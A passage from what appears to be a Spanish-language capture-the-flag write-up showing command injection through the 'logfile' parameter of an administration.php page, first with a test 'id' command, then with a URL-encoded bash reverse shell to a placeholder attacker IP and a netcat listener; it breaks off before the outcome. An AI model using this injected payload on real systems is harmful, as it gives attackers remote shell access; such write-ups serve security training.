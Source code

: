 Info:

```
You are not allowed to view : chat.txt; id  
Your activity has been logged
```

Ahora si volvemos al `chat` de la pagina principal, veremos esto:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-05-17 095338.png" alt=""><figcaption></figcaption></figure>

Vemos que ha funcionado de forma correcta, por lo que vamos a generar una `reverse shell` de esta forma:

```
URL = http://<IP>:8080/administration.php?logfile=chat.txt%3B%20bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F<IP_ATTACKER>%2F<PORT>%200%3E%261%22
```

Antes de enviarlo vamos a ponernos a la escucha.

```shell
nc -lvnp <PORT>
```

Ahora si enviamos el comando de la `URL` y volvemos a donde tenemos la escucha veremos lo siguiente:
